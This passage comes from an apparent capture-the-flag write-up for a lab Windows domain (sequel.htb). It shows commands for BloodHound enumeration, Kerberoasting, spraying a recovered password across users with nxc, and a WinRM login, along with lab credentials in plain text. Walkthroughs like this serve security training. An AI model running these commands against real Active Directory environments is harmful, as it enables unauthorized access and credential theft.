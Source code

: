 ![image.png](image%2015.png)

## Post Compromise Enumeration

```bash
python3 /home/kali/.local/share/pipx/venvs/netexec/bin/bloodhound-python -d sequel.htb -u oscar -p 86LxLBMgEWaKUnBG -ns $IP -c all
```

![image.png](image%2016.png)

## Post Compromise Attacks

- **Kerberoasting**
    
    ```bash
    GetUserSPNs.py -dc-ip $IP sequel.htb/oscar
    ```
    
    ![image.png](image%2017.png)
    
    ```bash
    sudo ntpdate -u sequel.htb
    ```
    
    ```bash
    GetUserSPNs.py -dc-ip $IP sequel.htb/oscar -request
    ```
    
    Hashcat is exhausted cracking them.
    

## Shell as sql_svc

We have a shell as `sql_svc` but service account doesn’t have any high privileges neither have privileges over other objects. As `SQL2019` directory is non-default in root I will dig in it a bit.

I found a configuration file and found a password for `sql_svc` account, I checked this password for `ryan` user and found that it works for him too.

![image.png](image%2018.png)

```bash
sudo nxc smb $IP -u users -p WqSZAF6CysDQbGb3 --continue-on-success
```

![image.png](image%2019.png)

## Shell as ryan

```bash
sudo nxc winrm $IP -u ryan -p 'WqSZAF6CysDQbGb3’
```
